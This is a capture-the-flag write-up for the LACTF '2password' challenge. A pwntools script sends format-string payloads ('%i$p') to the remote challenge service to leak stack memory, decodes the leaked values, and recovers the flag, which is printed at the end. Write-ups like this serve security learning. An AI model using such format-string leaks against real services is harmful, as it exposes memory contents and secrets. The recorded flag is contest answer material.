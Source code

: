 # 2password

Solved by: @Father Jamil
### Question:
2Password > 1Password
`nc chall.lac.tf 31142`
### Solution:
```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'debug'

for i in range(1, 30):
    # io = process()
    io = remote('chall.lac.tf', 31142)
    payload = f'%{i}$p'
    io.sendlineafter(b'Enter username: ', payload)
    io.sendlineafter(b'Enter password1: ', '1')
    io.sendlineafter(b'Enter password2: ', '1')
    io.recvuntil(b'Incorrect password for user ')

    response = io.recvline().decode()

    if response.startswith("0x"):
        try:
            response_no_0x = response[2:]
            response_unhexed = unhex(response_no_0x)

            response_big_indian = response_unhexed[::-1]
            print(f'{i}: Big-Indian: {response_big_indian}')
        except ValueError:
            print(f'{i}: Inalid hex: {response}')
    else:
        print(f"{i}: Not a hex leak: {response}")

    io.close()

# Flag found at 6th, 7th, and 8th argument
```

**Flag:**`lactf{hunter2_cfc0xz68}`
